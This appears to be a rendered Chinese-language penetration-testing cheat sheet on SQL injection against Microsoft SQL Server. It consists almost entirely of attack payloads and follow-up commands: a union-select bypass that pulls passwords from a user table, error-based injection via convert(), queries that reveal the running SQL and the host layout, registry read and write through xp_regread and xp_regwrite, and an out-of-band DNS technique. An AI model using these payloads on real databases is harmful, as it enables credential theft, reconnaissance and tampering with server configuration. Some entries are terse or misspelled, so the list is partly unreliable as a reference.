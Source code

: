 - ##### Trick

  -   id=1 union:select password from:user

- ##### 文件读取

  -   OpenRowset

- ##### 当前查询语句

  -   select text from sys.dm_exec_requests cross apply sys. dm_exec_sql_text(sql_handle)

- ##### hostname

  -   用于判断是否站库分离

  -   select host_name()

  -   exec xp_getnetname

- ##### 服务器信息

  -   exec xp_msver

- ##### 系统配置

  -   select \* from sys.configurations;

##### 注册表读写

-   **xp_regread**
    -   exec xp_regread N\'HKEY_LOCAL_MACHINE\', N\'SYSTEM\\CurrentControlSet\\Services\\MSSEARCH\'

-   xp_regwrite

-   xp_regdeletvalue

-   xp_regdeletkey

-   xp_regaddmultistring

##### 报错注入

-   1=convert(int,(db_name()))

##### 常用函数

-   SUSER_NAME()

-   USER_NAME()

-   PERMISSIONS()

-   DB_NAME()

-   FILE_NAME()

-   TYPE_NAME()

-   COL_NAME()

##### DNS OOB

-   fn_xe_file_target_read_file
